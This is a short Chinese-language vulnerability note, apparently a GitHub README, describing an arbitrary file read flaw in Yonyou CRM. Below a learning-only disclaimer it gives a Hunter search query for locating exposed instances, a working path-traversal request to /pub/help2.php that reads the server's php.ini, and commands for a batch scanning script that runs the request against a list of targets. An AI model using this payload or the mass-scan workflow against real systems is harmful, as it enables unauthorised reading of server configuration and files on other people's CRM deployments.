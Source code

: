 # 某友CRM存在任意文件读取

免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与作者无关。该文章仅供学习用途使用！！！

hunter：app.name="用友 CRM"

POC:

/pub/help2.php?key=/../../apache/php.ini



直接GET请求即可



批量poc(记得安装库)

python poc.py -u 



python poc.py -f  .txt

